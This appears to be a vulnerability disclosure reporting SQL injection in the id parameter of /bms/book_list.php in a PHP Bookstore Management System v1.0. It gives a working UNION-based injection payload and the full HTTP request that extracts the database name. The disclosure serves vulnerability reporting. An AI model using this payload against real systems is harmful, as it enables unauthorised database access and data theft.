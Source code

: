 # Bookstore Management System v1.0 by 1000Projects has SQL injection

BUG_Author: 孙一航 广州大学，樊琦 广州大学，孙彦斌 广州大学

vendors: https://1000projects.org/bookstore-management-system-php-mysql-project.html

The program is built using the xmapp-php5.6 version

Vulnerability File: /bms/book_list.php?id=

Vulnerability location: /bms/book_list.php?id=, id

dbname =bms

[+] Payload: /bms/book_list.php?id=-17 union select 1,database(),3,4,5,6,7--+&cat=Web Design // Leak place ---> main_event_id

```sql
GET /bms/book_list.php?id=-17%20union%20select%201,database(),3,4,5,6,7--+&cat=Web%20Design HTTP/1.1
Host: 192.168.1.16
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7hpgkhvc3ujgkqtdko38g42if7
Connection: close
```

![image](https://github.com/user-attachments/assets/de720dc7-7b71-4859-8c86-90acba0a88dd)
